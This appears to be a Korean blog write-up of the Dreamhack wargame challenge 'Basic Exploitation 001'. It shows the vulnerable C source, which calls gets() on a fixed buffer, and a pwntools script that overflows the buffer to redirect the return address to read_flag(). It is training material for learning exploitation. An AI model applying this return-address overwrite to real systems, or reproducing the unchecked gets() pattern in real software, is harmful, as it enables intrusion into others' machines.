 ```yaml
---
layout: post
title: Dreamhack | Basic Exploitation 001
subtitle: Dreamhack-Pwnable Basic Exploitation 001
categories: dreamhack.io
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188456086-910f189b-efd0-4046-b9e4-0941f1ea5a71.jpg" width = 500>
</p>

환경 정보를 보면 NX가 활성화되어 있는 것을 알 수 있다. 그렇다는 것을 Shellcode를 대입하더라도 스택 영역에 실행 권한이 없어 Shellcode를 실행하지 못하고 종료하게 된다. 주어진 파일을 확인해보겠습니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

`read_flag()`함수가 flag를 읽어주는 함수로 되어 있다. 하지만 main에는 read_flag()를 실행할 곳이 없다. **get()**함수는 크기 상관없이 읽어드리기에 buf의 크기를 넘겨 RET에 read_flag() 위치를 대입하면 해결될 것으로 보인다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460027-f08259f3-d443-4643-9b86-6fe36fcfda6d.jpg" width = 500>
</p>

`buf[0x80]` 위 빨간 네모칸을 통해서 총 128byte만큼 buf에 할당하고 그 위치를 `gets()`로 입력 받는다.

그리고 `read_flag()`의 함수 호출 위치를 알아낸다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460919-def60535-b780-4692-a0d5-296c241a0439.jpg" width = 380>
</p>

**그렇다면 Buf(128byte) + SFP(4byte) + RET(read_flag()의 4byte)로 flag를 읽어올 수 있다.**

```python
from pwn import *

p = remote('host3.dreamhack.games', 22987)

elf = ELF('./basic_exploitation_001')
read_flag = elf.symbols['read_flag'] # 0x80485b9
payload = b''
#dummy = b'\x90' * 128
SFP = b'S' * 4

payload += payload.ljust(128, b'\x90')
#payload += dummy
payload += SFP
payload += p32(read_flag)

p.sendline(payload)
p.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188464458-831d66a4-be19-4cd8-a4a1-8f2819e6ceb6.jpg" width = 380>
</p>

이전 문제보다는 더욱 쉬운 느낌이였다. `read_flag = elf.symbols['read_flag']`처럼 직접 read_flag의 함수 주소를 명시하지 않고 pwntools를 이용해서 가져오는 것도 가능하다.
